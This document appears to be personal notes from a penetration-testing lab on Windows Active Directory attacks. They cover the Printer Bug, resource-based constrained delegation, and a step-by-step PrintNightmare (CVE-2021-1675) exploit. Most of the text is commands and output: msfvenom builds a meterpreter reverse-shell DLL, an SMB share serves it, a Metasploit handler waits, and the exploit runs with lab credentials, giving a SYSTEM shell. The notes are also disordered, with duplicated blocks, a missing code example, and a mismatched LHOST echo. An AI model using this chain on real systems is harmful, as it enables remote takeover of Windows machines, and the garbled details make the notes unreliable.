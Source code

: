 


The **Printer Bug** is an NTLM relay vulnerability in Windows that exploits the **MS-RPRN (Remote Print System)** interface. It forces a computer to authenticate to another system via NTLM by tricking it into connecting to a fake printer share.

#### Key Steps in the Printer Bug Exploit:

1. An attacker tricks a target system into initiating an SMB connection to their controlled system (e.g., via `MS-RPRN`).
2. The target system sends an **NTLM authentication request**, which can then be relayed or captured for further use.

#### Example Exploit Code:

Using a tool like `impacket-rprnrelay` to trigger the Printer Bug:
### **Setting Up Resource-Based Constrained Delegation (RBCD)**

RBCD allows you to configure which accounts or computers can impersonate other users to access a resource. By combining RBCD with the Printer Bug, you can redirect delegation privileges from a legitimate computer to one you control.
- **Gain Write Access to the Target Resource's Delegation Attribute**:
    
    - Find a computer object in AD where you have control (e.g., through a compromised machine or account).
    - Modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target computer to include your controlled computer object.
- **Abuse Printer Bug to Authenticate to the Target**:
    
    - Trigger the Printer Bug on the target computer to force it to authenticate to your controlled computer.
- **Relay Authentication**:
    
    - Relay the NTLM authentication from the target to your controlled computer.
    - At this point, your controlled computer has a Kerberos Service Ticket that allows it to impersonate users to the target computer.
Important blog 

`git clone https://github.com/cube0x0/CVE-2021-1675.git`
 For this exploit to work successfully, we will need to use cube0x0's version of Impacket. We 
#### Install cube0x0's Version of Impacket

```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

```shell-session
$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
serve meterpreter payload
```shell-session
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```
catching the reverse shell that gets executed on the target.
 Configuring & Starting MSF multi/handler:
```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
```



`CReate a share`
```shell-session
$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

`Configuring & Starting MSF multi/handler`
```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```
```shell-session
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

`run exploit and point to revshell`
```shell-session
$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

`meterpreter:`
```shell-session
C:\Windows\system32>whoami
whoami
nt authority\system
```


## t